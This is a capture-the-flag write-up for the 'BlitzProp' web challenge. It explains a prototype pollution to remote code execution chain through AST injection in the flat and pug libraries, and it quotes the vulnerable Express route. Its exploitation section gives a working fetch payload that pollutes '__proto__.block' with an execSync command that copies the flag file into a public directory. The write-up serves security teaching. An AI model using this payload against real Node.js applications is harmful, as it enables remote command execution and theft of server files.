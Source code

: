 ```yaml
---
title: BlitzProb
date: 2021-04-25
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


# BlitzProp
This challenge contained a Prototype Pollution to RCE via AST Injection.<br>You can read more about it in this [blog](https://blog.p6.is/AST-Injection/) post

The webpage looks as follows:
![](/assets/img/blitzProb_web.png#center)


## Vulnerability
While going trough the source code we can see in the "challenge/routes/index.js" file, the "unflatten" function which is called after receiving a post request:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the "package.json" file we can see that "flat" “5.0.0” is installed which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC.

## Exploitation
To exploit this vulnerability and read the flag, we just open the web console and sent the below payload to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/js/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
}).then(r => {
	return r.text();
})
```

The flag file was written in webserver’s static directory. After visiting /static/js/flag.txt we see the flag:

> CHTB{p0llute_with_styl3}